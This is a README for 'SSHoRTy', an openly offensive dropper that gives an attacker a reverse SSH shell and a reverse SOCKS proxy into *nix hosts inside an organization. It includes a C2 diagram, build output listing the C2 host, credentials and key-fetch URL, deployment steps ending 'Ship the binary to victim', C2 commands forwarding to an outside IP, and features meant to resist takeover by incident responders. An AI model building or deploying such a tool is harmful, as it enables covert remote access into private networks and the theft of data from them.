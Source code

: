 
# SSHoRTy

A standalone SSH Reverse shell tunnel and Reverse SOCKS Proxy Dropper for *nix systems. 
```bash
 [Organization]  ----- |Internet| ------ [Attacker C2]
 
      (Dropper)  ------ Call back ------> SSH Server -------------------|
                                                                        |  Attacker SSH shell client             
 1. Internal Host <==== SSH Client <= Reverse Shell ==== SSH Server ----|
                                                                        |  Attacker Browser+SOCKS
 2. Internal Hosts N <==== SSH Client <= Reverse SOCKS ==== SSH Server -|
    Internal Hosts N+1

```
## Features

- Full PTY support, the "real" shell
- end-to-end SSH w/key equivalency
- RSA key can be hosted offsite and fetched for operation. It is Additionally encrypted with AES in flight 
- Reverse SSH is protected on atatcker side with an additional password to avoid hijacking connections.
- Ability to protect from C2 takeover from DFIR by authorized_keys options 

Note: No SCP yet. No DNS proxying yet.

## Deployment 

Build Dropper 

`./build.sh`

```bash
[*] Building dropper
[*] Dropper Information (keep it safe):
    #######################
    Dropper File: rssh (7010788 bytes)
    SSH serverHost=192.168.88.15
    SSH serverPort=22
    SSH serverUser=tester
    SSH serverUserKeyUrl=http://127.0.0.1:9000/id_rsa_test_enc
    SSH serverUserKeyPassphrase=password1
    SSH-RT remoteCmdHost=127.0.0.1
    SSH-RT remoteCmdPort=2022
    SSH-RT remoteCmdUser=operator
    SSH-RT remoteCmdPwd=6009c967f7176e5be0bb14d5b2beb0a8905a069f
    SSH-RTS remoteSocksHost=127.0.0.1
    SSH-RTS remoteSocksPort=1080
    SSH-RT shell agent password: 6009c967f7176e5be0bb14d5b2beb0a8905a069f 
    #######################

       Usage SSH-RT: ssh operator@127.0.0.1 -p 2022 
       Usage SSH-RTS: browser SOCKS proxy: 127.0.0.1:1080 

```
1. Host dropper RSA keys on HTTP server (fetchable by URL from Company Intranet)
2. Allow SSH on C2 
3. Ship the binary to victim


## Operation

```bash
       SSH from Attacker C2: ssh operator@127.0.0.1 -p 2022 
       
       SOCKS from Attacker C2 SOCKS proxy: 127.0.0.1:1080 
       point your browser to it and/or proxifier. Note: no DNS masking yet.
```

## C2:

Unwrap websocket and forward to SSH port
```bash
./websockify.py --ssl-only  --cert=/Users/dimas/Code/go/src/sshpipe/websocketd/sslcert.pem --key=/Users/dimas/Code/go/src/sshpipe/websocketd/sslkey.pem 8080 167.99.88.24:22
``` 

Local SSH tunnel to proxy host in the background 
``` 
ssh  -N -f -q  -L 127.0.0.1:1080:127.0.0.1:1080 root@167.99.88.24
``` 

```bash
/usr/bin/htpasswd -v  /etc/squid/passwords  companyuser
```
## Code used
Thanks to ref: 
- https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3
-	 https://gist.github.com/pavel-odintsov/0208f1848952d4940b4a5976165db17f
-	 https://github.com/creack/termios/blob/master/win/win.go
-	 https://github.com/davecheney/socksie
-	 https://sosedoff.com/2015/05/25/ssh-port-forwarding-with-go.html
- https://raw.githubusercontent.com/Scalingo/go-ssh-examples/master/server_complex.go

